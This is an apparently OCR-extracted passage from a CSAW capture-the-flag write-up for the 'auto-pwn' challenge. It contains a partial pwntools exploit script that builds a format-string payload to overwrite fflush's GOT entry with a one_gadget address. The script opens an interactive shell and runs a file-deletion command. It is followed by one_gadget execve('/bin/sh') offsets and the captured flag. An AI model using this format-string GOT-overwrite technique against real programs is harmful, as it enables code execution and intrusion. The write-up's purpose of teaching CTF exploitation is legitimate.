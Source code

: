 ```


    t1 = one_gadget & 0xff
    t2 = one_gadget & 0xffff00
    t2 = t2 >> 8

    payload = b'%'
    payload += str(t1).encode('utf-8')
    payload += b'c'
    payload += b'%12$hhn'
    payload += b'%'
    payload += str(t2 - t1).encode('utf-8')
    payload += b'c'
    payload += b'%13$hn'
    payload = payload.ljust(0x20,b'A')
    payload += p64(got_fflush)
    payload += p64(got_fflush+1)
    payload += b'\x00'*0x100


    p.sendline("cat message.txt")
    p.recvuntil("auto-pwn.chal.csaw.io ")
    port = int(p.recv(5),10)

    p.recvuntil("password ")
    passw = p.recv(32)
    print(passw)
    os.system("rm -r done_file")







p.interactive()



"""
0xe6c7e execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL
  [r12] == NULL || r12 == NULL

0xe6c81 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL
  [rdx] == NULL || rdx == NULL

0xe6c84 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL

"""
```
> Flag: ```flag{c0ngr4tul4t10ns,4ut0-pwn3r!5h0ut0ut5_t0_UTCTF_f0r_th31r_3xc3ll3nt_AEG_ch4ll3ng3_1n_M4y}```


